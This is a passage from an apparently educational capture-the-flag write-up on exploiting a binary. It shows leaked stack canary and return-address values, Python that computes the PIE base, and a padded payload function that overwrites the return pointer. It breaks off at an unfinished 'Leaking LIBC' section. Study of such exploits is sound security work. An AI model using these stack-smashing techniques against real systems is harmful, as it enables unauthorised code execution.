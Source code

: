 ```
0x7ffe9d91bbe0
0xdc185629f84e5a00            canary
0x7ffe9d91bbe0                rbp
0x565150b24f54                rip
```

Now we've successfully leaked, we can parse the values. Using radare2 and breaking on the `ret`, the offset between the leaked RIP value there and binary base is `0xf54`:

![](<../../../../.gitbook/assets/image (17).png>)

```python
leaks = read()[1032:]

canary = u64(leaks[:8])
log.success(f'Canary: {hex(canary)}')

ret_pointer = u64(leaks[16:24])
elf.address = ret_pointer - 0xf54
log.success(f'PIE Base: {hex(elf.address)}')
```

Now we need to somehow read a GOT entry. Since the binary uses `write()`, it's possible. But first we need to get the copy working in a way that it starts overwriting at _exactly_ the return pointer. With a bit of messing about, I got a function that seemed to work.

```python
def deliver_payload(payload):
    payload = 'A' * 12 + payload
    payload = payload.ljust(0xff, 'A')

    write(payload)
    write('B' * 0xff)
    write('C' * 0xff)
    write('D' * 0xff)

    copy(12 + len(payload))
```

We're 12 off the canary at the end, so we put 12 `A` characters ahead and copy 12 extra.

### Leaking LIBC

TODO

